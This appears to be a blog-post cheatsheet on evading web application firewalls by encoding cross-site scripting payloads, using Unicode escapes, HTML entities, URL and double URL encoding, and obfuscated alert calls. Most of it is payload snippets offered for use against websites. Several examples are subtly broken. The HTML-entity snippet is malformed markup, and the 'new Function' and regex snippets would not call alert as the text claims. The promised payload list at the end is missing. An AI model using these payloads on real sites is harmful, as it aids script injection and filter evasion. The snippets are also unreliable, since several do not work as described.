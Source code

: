 
# Cheatsheet: Bypassing WAFs through Payload Encoding

If you're looking for ready-made payloads, go to the end of this blogpost, where I include some interesting ones.


## 1. Using Unicode in JSON Objects to Bypass String Checks

To bypass common string checks, you can use Unicode encoding on JSON objects. This can help hide the payload in ways not recognized by WAF.

**Example:**
```javascript
JavaScript:\u000aalert('Test')
```

## 2. HTML Encoding in XSS Payloads

Using HTML encoding is an effective technique for cloaking XSS payloads. This allows the script to be interpreted by the browser, but not by the WAF.

**Example:**
```html
<s&#x61;lert('XSS');</script>
```


## URL Encoding to bypass WAF

URL encoding is an effective technique for evading WAFs, especially in situations where payloads are sent as part of URLs.

**Example:**
```http
GET /path/%61lert(%22XSS%22)
```

## Double URL Encoding to Confuse WAFs

Double encoding can be used to confuse WAFs that do not decode payloads multiple times.

**Example:**
```html
%253Cscript%253Ealert(%2527XSS%2527)%253C/script%253E
```

## Different ways to run the alert
1. **Using Constructors and Prototype:**
    ```javascript
    new Function('al' + 'ert')(1)
    ```

2. **Regular Expression and String Match:**
    ```javascript
    /al/.source+/ert/.source/['split'](/a/).join('')(1)
    ```
